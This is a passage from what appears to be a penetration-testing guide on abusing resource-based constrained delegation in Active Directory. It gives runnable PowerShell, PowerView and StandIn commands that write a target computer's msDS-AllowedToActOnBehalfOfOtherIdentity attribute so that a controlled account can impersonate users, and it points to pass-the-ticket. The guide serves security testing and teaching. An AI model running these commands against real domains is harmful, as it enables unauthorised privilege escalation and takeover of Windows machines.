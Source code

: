 **Step 3**: Pass-the-ticket :passport_control: 

Once the ticket is obtained, it can be used with [pass-the-ticket](../ptt.md).


=== Windows

In order to run the following commands and tools as other users, testers can check the [user impersonation](../../credentials/impersonation.md) part.

**Step 1**: edit the target's "rbcd" attribute ([DACL abuse](../../dacl/)) :pencil2: 

The [PowerShell ActiveDirectory module](https://docs.microsoft.com/en-us/powershell/module/addsadministration/?view=win10-ps)'s cmdlets Set-ADComputer and Get-ADComputer can be used to write and read the attributed of an object (in this case, to modify the delegation rights).

```bash
# Read the security descriptor
Get-ADComputer $targetComputer -Properties PrincipalsAllowedToDelegateToAccount

# Populate the msDS-AllowedToActOnBehalfOfOtherIdentity
Set-ADComputer $targetComputer -PrincipalsAllowedToDelegateToAccount 'controlledaccountwithSPN'
```

PowerSploit's [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) module is an alternative that can be used to edit the attribute ([source](https://powersploit.readthedocs.io/en/latest/Recon/Set-DomainObject/)).

```bash
# Obtain the SID of the controlled account with SPN (e.g. Computer account)
$ComputerSid = Get-DomainComputer "controlledaccountwithSPN" -Properties objectsid | Select -Expand objectsid

# Build a generic ACE with the attacker-added computer SID as the pricipal, and get the binary bytes for the new DACL/ACE
$SD = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;$($ComputerSid))"
$SDBytes = New-Object byte[] ($SD.BinaryLength)
$SD.GetBinaryForm($SDBytes, 0)

# set SD in the msDS-AllowedToActOnBehalfOfOtherIdentity field of the target comptuer account
Get-DomainComputer "target$" | Set-DomainObject -Set @{'msds-allowedtoactonbehalfofotheridentity'=$SDBytes}
```

FuzzSecurity's [StandIn](https://github.com/FuzzySecurity/StandIn) project is another alternative in C# (.NET assembly) to edit the attribute ([source](https://github.com/FuzzySecurity/StandIn#add-msds-allowedtoactonbehalfofotheridentity)).

```powershell
# Obtain the SID of the controlled account with SPN (e.g. Computer account)
StandIn.exe --object samaccountname=controlledaccountwithSPNName

# Add the object to the msDS-AllowedToActOnBehalfOfOtherIdentity of the targeted computer
StandIn.exe --computer "target" --sid "controlledaccountwithSPN's SID"
```

---
**Step 2**: obtain a ticket (delegation operation) :ticket: 
